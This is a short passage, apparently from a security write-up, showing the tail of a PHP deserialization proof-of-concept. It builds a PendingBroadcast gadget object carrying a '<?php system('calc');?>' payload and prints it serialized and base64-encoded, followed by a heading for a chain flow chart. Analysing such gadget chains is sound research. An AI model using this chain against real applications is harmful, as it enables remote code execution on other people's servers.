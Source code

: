 ```php
            $this->connection = new MockDefinition("<?php system('calc');?>");
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```

<img src="./images/poc-6-4.png" alt="">

### POC chain utilization flow chart
